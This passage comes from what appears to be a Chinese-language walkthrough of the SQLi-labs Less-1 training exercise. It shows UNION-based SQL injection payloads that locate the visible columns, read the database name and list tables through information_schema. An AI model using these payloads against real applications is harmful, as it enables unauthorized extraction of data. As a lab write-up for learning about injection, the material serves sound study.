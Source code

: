   3. **通用性**：`-1` 是一个在许多情况下都不会与任何实际存在的ID匹配的数字，因此它被广泛使用来避免意外匹配数据库中的某些记录。

  在你提供的语句 `id=-1'union select 1,2,3 --+` 中，`-1` 确保了 `id` 字段不会匹配到数据库中的任何实际记录，使得后面的 `union select 1,2,3` 的结果更容易被测试和利用。

```http
http://192.168.77.131/master/Less-1/?id=-1'union select 1,2,3 --+
```

![image-20240819183800348](./assets/image-20240819183800348.png)

```
到这里可以知道name是第2列,password是第3列
```

- 那么现在就可以从``第二列``或者``第三列``查询出数据库名称(``?id=-1'union select 1,database(),database() --+``)

![image-20240819184217526](./assets/image-20240819184217526.png)

```
在这里我们可以看到数据库名称为-----> security
```

- 知道数据库名称``security``我们就可以使用``information_schema``查询该数据中所有的表和列
- ``?id=-1'union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+``)

![image-20240819185559909](./assets/image-20240819185559909.png)
